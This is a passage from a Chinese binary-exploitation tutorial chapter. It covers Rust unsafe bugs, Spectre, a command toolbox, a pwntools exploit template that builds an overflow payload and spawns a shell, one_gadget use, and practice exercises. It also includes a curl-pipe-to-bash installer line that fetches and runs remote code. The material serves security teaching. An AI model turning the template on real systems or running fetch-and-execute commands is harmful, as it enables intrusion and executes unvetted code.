### 4.3 Rust安全与unsafe

Rust的内存安全保证正在改变二进制安全的格局，但并非万能：

**Rust的安全边界**：Rust的借用检查器在编译期防止了大部分内存安全问题，但 `unsafe` 块中的代码不受此保护。真实世界中，约30%的Rust安全漏洞涉及 `unsafe` 代码。

**Rust特有漏洞类型**：
- `unsafe` 块中的裸指针解引用错误
- FFI（Foreign Function Interface）调用C库时的类型不匹配
- `Pin` 和 `Unpin` trait的错误使用导致自引用结构被移动
- 逻辑漏洞（Rust只防内存安全，不防逻辑错误）

### 4.4 硬件级漏洞

**Spectre和Meltdown**：利用CPU的推测执行（speculative execution）和缓存侧信道，可以读取本不应访问的内存。这类漏洞无法通过软件补丁完全修复，需要CPU微码更新和操作系统缓解措施（如KPTI/KAISER）。

**实际影响**：Spectre变种至今仍在被发现（如2024年的Spectre-BHB），在云环境中尤其危险——同一物理机上的不同虚拟机可能通过侧信道互相泄露数据。

## 五、工具箱速查

### 5.1 核心工具链

```bash
# === 二进制分析 ===
checksec --file=./binary           # 查看保护机制
file ./binary                       # 文件类型和架构
readelf -s ./binary                 # 符号表
objdump -d ./binary | grep -A5 ret # 快速找ret指令

# === GDB调试 ===
gdb ./binary
# 安装pwndbg（推荐）
git clone https://github.com/pwndbg/pwndbg && cd pwndbg && ./setup.sh
# 或安装GEF
bash -c "$(curl -fsSL https://gef.blah.cat/sh)"

# === ROP工具 ===
ROPgadget --binary ./binary --ropchain  # 自动生成ROP链
ropper --file ./binary                  # 交互式搜索gadget
one_gadget ./libc.so.6                  # 查找one_gadget

# === Fuzzing ===
afl-clang-lto -o target target.c        # 编译插桩目标
afl-fuzz -i seeds -o findings ./target @@ # 运行fuzzer

# === 远程利用 ===
python3 exploit.py REMOTE target.example.com 1337
```

### 5.2 PWN模板代码

```python
#!/usr/bin/env python3
"""PWN exploit模板"""
from pwn import *

# ============ 基本配置 ============
context.binary = elf = ELF('./vuln')
context.log_level = 'info'  # 'debug' 打印所有通信
libc = ELF('./libc.so.6')   # 如果有对应libc

HOST = 'challenge.example.com'
PORT = 1337
OFFSET = 72  # 返回地址偏移（通过cyclic找到）

def conn():
    if args.REMOTE:
        return remote(HOST, PORT)
    elif args.GDB:
        return gdb.debug(elf.path, gdbscript='''
            break *main
            continue
        ''')
    else:
        return process(elf.path)

def find_offset():
    """自动计算偏移量"""
    p = process()
    p.sendline(cyclic(200))
    p.wait()
    core = Coredump('./core')
    offset = cyclic_find(core.read(core.rsp, 4))
    log.success(f"Offset: {offset}")
    return offset

# ============ 利用代码 ============
def exploit():
    p = conn()
    
    # Stage 1: 信息泄露
    # ... 泄露libc/stack/heap地址 ...
    
    # Stage 2: 构造payload
    payload = b'A' * OFFSET
    # ... 添加ROP链或shellcode ...
    
    # Stage 3: 发送payload
    p.sendline(payload)
    
    # Stage 4: 获取shell
    p.interactive()

if __name__ == '__main__':
    exploit()
```

### 5.3 one_gadget使用技巧

`one_gadget` 查找libc中直接调用 `execve("/bin/sh", ...)` 的地址，可以简化利用链：

```bash
$ one_gadget ./libc.so.6
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

每个one_gadget都有约束条件（如某些寄存器或栈上位置必须为NULL）。在实际利用中，可能需要通过额外的gadget调整寄存器状态来满足约束。如果约束不满足，程序会崩溃。建议同时列出所有one_gadget地址，在exploit中逐一尝试。

## 六、思考与实践

### 6.1 思考题

1. **保护机制组合**：当目标同时启用ASLR + NX + Canary + PIE时，你的利用策略是什么？各保护机制之间有什么依赖关系？（提示：先解决信息泄露，再解决代码执行）

2. **ROP vs JOP vs SROP**：在什么场景下你会选择JOP而非ROP？当ret指令被过滤时有哪些替代方案？

3. **堆利用版本适配**：glibc 2.31与glibc 2.35在堆保护上有什么关键差异？这些差异如何影响你的利用链设计？

4. **格式化字符串的偏移计算**：为什么在64位系统上格式化字符串利用比32位更困难？如何处理地址中包含 `\x00` 的问题？

5. **内核利用的根本挑战**：内核空间没有ASLR保护（KASLR除外），为什么内核漏洞利用反而比用户空间更困难？

### 6.2 实践路线图



**推荐练习顺序**：

1. **pwn.college**（模块化学习，从最基础的栈溢出开始）
2. **how2heap**（系统学习glibc堆利用的所有技术）
3. **CTF比赛**（在时间压力下综合运用技能）
4. **CVE分析**（阅读真实漏洞的PoC和分析报告，如CVE-2021-3156 Sudo堆溢出）
5. **自建实验环境**（用Docker搭建不同glibc版本的靶机）

**练习环境搭建**：

```bash
# 使用Docker快速搭建不同glibc版本的环境
docker run -it --privileged ubuntu:18.04  # glibc 2.27
docker run -it --privileged ubuntu:20.04  # glibc 2.31
docker run -it --privileged ubuntu:22.04  # glibc 2.35

# 安装pwn工具链
apt update && apt install -y gdb python3-pip
pip3 install pwntools
git clone https://github.com/pwndbg/pwndbg && cd pwndbg && ./setup.sh

# glibc版本切换工具
git clone https://github.com/nicknisi/glibc-all-in-one.git
cd glibc-all-in-one
./update_list
./download 2.27-3ubuntu1_amd64  # 下载指定版本libc
```

---

> **本章寄语**：二进制安全是网络安全中最深奥的领域之一。栈溢出到堆利用是一次认知飞跃，堆利用到内核PWN是另一次。每次飞跃都需要更扎实的底层功底——操作系统原理、CPU架构、编译器行为。不要跳过基础直接追求"高级技术"，也不要停留在理论层面不去动手。最好的学习方式永远是：**读源码、写exploit、调试到理解每一字节的含义**。
